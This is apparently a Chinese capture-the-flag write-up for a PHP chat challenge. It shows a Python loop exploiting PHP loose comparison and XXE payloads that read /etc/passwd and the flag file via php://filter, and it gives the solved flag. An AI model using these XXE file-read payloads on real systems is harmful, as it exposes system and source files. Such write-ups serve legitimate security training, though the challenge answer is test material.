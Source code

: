 ### 10.性感黄阿姨，在线聊天
> 出题人：淚笑
> 听说她有很多小秘密和表情包哦，当然也有你们最想要的flag！
> 地址:http://148.70.59.198:41257/
> hint:weak php && xxe

聊天界面输入“flag”提示“我很想告诉你的，可惜你只是我的guest”，查看源码发现post请求，把“name”值改为“admin”发送请求，返回“admin也不行! //if($name==md5($flag)){flag in ...}”，把“name”参数从字符串改为数字进行爆破（weak php：php弱类型比较）。
```python
import requests,json

headers = {'content-type': 'application/json'}
for i in range(357,358):
    res = requests.post("http://148.70.59.198:41257/message.php",data=json.dumps({"root":{"name":i,"request":"flag"}}), headers=headers)
    print(eval(res.text)["response"])
```
当name=357时返回信息“Congratulations! flag in ./_f14g_Is_Here_.php ,try ro read it!”


```xml
<!-- 读/etc/passwd测试 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "file:///etc/passwd" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>

<!-- 直接读文件会读不到 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "file:///var/www/html/_f14g_Is_Here_.php" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>

<!-- 利用php://伪协议读php内容 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/_f14g_Is_Here_.php" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>
```
返回信息
```json
{"response":"我很想告诉你的，可惜你只是我的PD9waHANCiAgICAkZmxhZz0iU3lje3czYUtfUGhwX2FOZF9YeEV9Ijs="}
```
base64解码后得到flag
```
Syc{w3aK_Php_aNd_XxE}
```
